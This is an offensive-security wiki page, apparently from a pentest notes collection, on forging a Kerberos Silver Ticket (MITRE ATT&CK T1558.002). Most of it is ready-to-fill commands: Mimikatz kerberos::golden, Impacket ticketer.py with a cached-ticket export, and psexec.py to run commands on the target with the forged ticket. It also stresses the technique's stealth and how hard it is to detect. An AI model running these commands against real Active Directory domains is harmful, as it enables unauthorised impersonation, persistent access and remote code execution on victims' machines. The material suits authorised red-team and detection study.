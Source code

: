 ```yaml
---
description: MITRE ATT&CK, Credential Access, Technique T1558.002
---
```


# Forge Silver Ticket

A Silver Ticket is a forged TGS, signed using the secret keys of a machine account. This can be useful for short-term persistence and is considered stealthy. The large benefit of creating a silver ticket is that we can create it offline, meaning that it can be very hard for an organization to track when one is created.&#x20;

### Mimikatz

Creation of a silver ticket utilizing Mimikatz:

```bash
kerberos::golden /user:Administrator /domain:$domain /sid:$domain_sid /target:$target_machine /service:cifs /rc4:$nthash /ticket:$output
```

### Ticketer.py

Creation of a silver ticket using Impacket:

```bash
ticketer.py -nthash $nthash -domain-sid $domain_sid -domain $domain -spn cifs/$target_machine $u
export KRB5CCNAME=$user.ccache
```

### Utilizing the Silver Ticket

Utilizing a silver ticket using Impacket:&#x20;

```bash
psexec.py $domain/$user@$target_machine -k -no-pass
```

### References

{% embed url="https://adsecurity.org/?page_id=183" %}
